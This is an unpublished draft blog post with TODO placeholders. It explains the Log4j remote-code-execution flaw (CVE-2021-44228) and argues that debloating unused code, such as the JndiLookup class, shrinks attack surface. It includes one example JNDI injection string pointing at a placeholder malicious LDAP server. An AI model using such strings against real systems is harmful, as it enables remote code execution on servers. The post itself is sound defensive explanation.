 ```yaml
---
layout: post
title: Why Debloating Software Based on User Usage?
subtitle: The case of the Log4j vulnerability
tags: security
description: TODO
keywords:
  - debloating,
  - log4j,
  - security,
  - vulnerabilities,
  - software engineering
image: ../img/posts/2022/2022-06-15/satyr-cover.jpg
share-img: ../img/posts/2022/2022-06-15/satyr-cover.jpg
show-avatar: false
date: 2022/06/15
author: cesarsotovalero
published: false
---
```


TODO

<figure class="jb_picture">
  {% responsive_image path: img/posts/2022/2022-06-15/satyr.jpg alt:"TODO" %}
  <figcaption class="stroke"> 
    &#169; Let's . Photo from a wooden satyr at <a href="https://goo.gl/maps/9SCooHLsZwRLTcbt6">Stockholms Centralstation</a>.
  </figcaption>
</figure>

# The Log4j Vulnerability

In December 2021, a critical vulnerability was discovered in the popular Java logging library log4j2.
The versions affected ranged [between 2.0-beta9 and 2.14.1 included](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q). 
This vulnerability is identified by [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

The vulnerability stemmed from the `JndiLookup` class in log4j, which allowed JNDI ([Java Naming and Directory Interface](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html#:~:text=The%20Java%20Naming%20and%20Directory,any%20specific%20directory%20service%20implementation.)) lookups. 
When log4j is configured to log unsanitized user input, an attacker can insert a malicious string (like `${jndi:ldap://malicious.server/payload}`) which would cause log4j to initiate a JNDI lookup.
This can lead to Remote Code Execution (RCE) because certain JNDI services, like LDAP, can return serialized Java objects, allowing the attacker to run arbitrary code on the affected server.

> The Java Naming and Directory Interface (JNDI) is an API that allows applications to discover and look up data and objects via a name. These objects can be anything from simple data items (like strings and numbers) to more complex network services. JNDI lookup is essentially the process of retrieving an object or piece of data bound to a particular name in a naming or directory service.

Because log4j is ubiquitously used in Java applications, this vulnerability was particularly alarming.
The impact was widespread, affecting countless systems, and required immediate patching. 
A patch (2.15.0) was swiftly released by the Apache Logging team that removed the vulnerable feature, and many organizations rushed to update their log4j versions or implement mitigations like JVM flags or firewall rules.

Apart from the direct RCE exploit, this vulnerability also opened up doors to other attack vectors like Denial of Service (DoS) via extremely resource-intensive JNDI lookups, or Information Disclosure as the malicious server can capture IP addresses of the servers making the lookup.

This incident also highlighted the importance of being cautious when parsing and logging untrusted input, and emphasized the need for regular security reviews of even well-established and trusted libraries in the software ecosystem.

https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/
https://logging.apache.org/log4j/2.x/security.html

# Does Debloating Helps?

The log4j vulnerability brought to light the dangers of excess code and features in widely used libraries. 
A library as pervasive as log4j having a critical flaw suggests that even well-maintained codebases can contain dormant vulnerabilities, especially in rarely used features. 
This incident underscores the importance of debloating—reducing the codebase by removing or disabling code not necessary for a particular application's functionality.

Software debloating allows organizations to reduce the attack surface of their applications by removing unnecessary features and components.
Reduced codebase means a reduced attack surface.
If parts of a library or software aren't present, they can't be exploited.
Based on thi premise, fewer components and lines of code in a software product can lead to fewer vulnerabilities.
This reduction in vulnerabilities arises because there are fewer points for an attacker to target.

In the case of log4j, the vulnerability stemmed from a particular feature related to the `JndiLookup` class that permitted JNDI (Java Naming and Directory Interface) lookups.
This feature was exploited in the vulnerability for remote code execution by sending specifically crafted inputs that the library would process.

Many applications that used log4j didn't even require the `JndiLookup` functionality or the ability to process JNDI lookups. 
However, since this feature was present in the library, and the library was integrated into their applications, they became vulnerable.
If this feature had been removed or wasn't a part of the version of the library they were using, the vulnerability would have had no impact on them, even if the flaw still existed in the code of the broader log4j project.

If an organization had debloated their version of log4j, removing features and components they didn't use, including the `JndiLookup` class, they would have naturally been immune to this particular vulnerability.
This example underscores the principle that removing or disabling unnecessary components can reduce the potential points of failure or exploitation in software.

# Software Debloating Strategies

1. **Static Analysis-Based Debloating:**
  - **Principle**: Analyze the software without executing it.
  - **Example**: Using tools like ProGuard for Java, which can identify and remove unused classes, fields, methods, and attributes based on the application's usage. Considering log4j, if an application only uses certain logging functionalities, a static analysis tool might prune away the unused features, potentially including the problematic `JndiLookup` class.
  - **Advantages**: No need to run the software, usually faster than dynamic analysis, can be integrated into build processes.
  - **Challenges**: Over-approximation might lead to removing code that's actually needed or under-approximation might leave more code than necessary.

2. **Dynamic Analysis-Based Debloating:**
  - **Principle**: Analyze the software by executing it, typically under various scenarios.
  - **Example**: Profiling a Java application during its runtime to see which methods of a library like log4j are invoked and which aren't. If certain methods are never called across various representative runs, they can be considered for removal.
  - **Advantages**: More accurate than static analysis since it's based on real execution patterns.
  - **Challenges**: Need representative workloads or usage scenarios. Might miss some code paths that are only invoked in rare situations.

3. **Profile-Guided Debloating:**
  - **Principle**: Combines both static and dynamic analysis. Software is first profiled (dynamic analysis) to collect data on which parts are most used, then that data guides static debloating processes.
  - **Example**: Running an application server under peak loads to gather profile data, and then passing that data to a tool that prunes unused parts of libraries like log4j.
  - **Advantages**: Combines the accuracy of dynamic analysis with the thoroughness of static tools.
  - **Challenges**: More complex, needs both runtime profiling and post-profiling analysis stages.

# Conclusion

While debloating can offer significant advantages, it's essential to ensure that the software still behaves correctly after the debloating process. Rigorous testing is crucial. The log4j vulnerability offers a poignant lesson on the latent dangers in extraneous code and features. In our increasingly security-conscious world, code debloating based on user usage might shift from being an optimization strategy to a critical security measure.

In conclusion, the log4j incident serves as a compelling illustration of the statement's validity.
It emphasizes the security benefits of minimizing code and features to only what is necessary for a given application or service, thereby reducing the overall risk profile.


# References

- TODO
- TODO
- TODO


